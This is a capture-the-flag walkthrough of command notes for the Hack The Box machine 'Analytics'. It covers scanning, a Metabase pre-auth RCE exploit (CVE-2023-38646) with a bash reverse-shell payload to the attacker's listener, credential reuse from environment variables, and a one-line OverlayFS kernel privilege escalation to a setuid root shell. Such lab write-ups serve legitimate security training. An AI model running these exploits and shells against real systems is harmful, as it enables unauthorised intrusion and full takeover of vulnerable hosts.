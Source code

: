 # 💎 HTB: Analytics - Command Notes

## 🔍 Scanning & Enumeration

```bash
ping <Analytics IP Address>                            # Verify host is up (TTL ~63 = Linux)
sudo nmap -T4 -A -p- <Analytics IP Address>            # Full aggressive scan
nano /etc/hosts                                        # Map domain + subdomain
# Example entry: <Analytics IP> analytical.htb data.analytical.htb
```

---

## 🕸️ Web Application Analysis

```http
http://data.analytical.htb/auth/login                 # Found Metabase login portal
```

---

## 📌 Exploit CVE-2023-38646 (Metabase Pre-Auth RCE)

**Reference:** [GitHub - m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token
curl http://data.analytical.htb/api/session/properties

# Start listener
sudo nc -nlvp 4444

# Launch exploit
python3 main.py -u http://data.analytical.htb -t <setup-token> -c "bash -i >& /dev/tcp/<your-IP>/4444 0>&1"
```

---

## 🐚 Shell Access & User PrivEsc

```bash
cd /home/metabase                                    # Check for user flag (none found)
env                                                  # Enumerate environment variables
ssh metalytics@<Analytics IP>                        # SSH using creds from env
cat user.txt                                         # Get user flag
```

---

## ⛏️ Privilege Escalation (Kernel Exploit)

### Check Permissions & Environment

```bash
id                                                   # Check UID/GID
mkdir /opt/testdir                                   # Check directory write permissions (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
cat /proc/version                                    # Find kernel version: Ubuntu 22.04.2
```

### Exploit CVE-2023-2640 / CVE-2023-32629

**Reference:** [GitHub - g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; \
setcap cap_setuid+eip l/python3; \
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && \
u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && \
chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

---

## 🔐 Root Access

```bash
cat /root/root.txt                                   # Get root flag
```